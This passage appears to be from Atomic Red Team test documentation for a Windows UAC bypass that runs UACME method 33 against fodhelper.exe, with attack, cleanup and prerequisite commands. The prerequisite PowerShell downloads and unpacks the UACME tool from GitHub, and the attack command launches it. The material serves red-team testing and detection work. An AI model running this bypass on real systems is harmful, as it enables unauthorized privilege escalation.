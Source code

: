 Target: \system32\fodhelper.exe

Component: Attacker defined

Implementation: ucmShellRegModMethod

UCM Method: UacMethodMsSettings2

https://github.com/hfiref0x/UACME

**Supported Platforms:** Windows

**auto_generated_guid:** e514bb03-f71c-4b22-9092-9f961ec6fb03

#### Inputs:

| Name      | Description              | Type | Default Value                                                                |
| --------- | ------------------------ | ---- | ---------------------------------------------------------------------------- |
| uacme_exe | Path to uacme executable | path | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;uacme&#92;33 Akagi64.exe |

#### Attack Commands: Run with `command_prompt`!

```cmd
"#{uacme_exe}"
```

#### Cleanup Commands:

```cmd
powershell Stop-Process -Name cmd -Force -ErrorAction Ignore
powershell Stop-Process -Name mmc -Force -ErrorAction Ignore
```

#### Dependencies: Run with `powershell`!

##### Description: UACME executable must exist on disk at specified location ("#{uacme_exe}")

##### Check Prereq Commands:

```powershell
$tempPath = cmd /c echo #{uacme_exe}
if (Test-Path "$tempPath") {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1548.002/bin/uacme.zip" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\uacme.zip"
Expand-Archive "PathToAtomicsFolder\..\ExternalPayloads\uacme.zip" "PathToAtomicsFolder\..\ExternalPayloads\uacme" -Force
Remove-Item "PathToAtomicsFolder\..\ExternalPayloads\uacme.zip" -Force
```

<br/>
<br/>

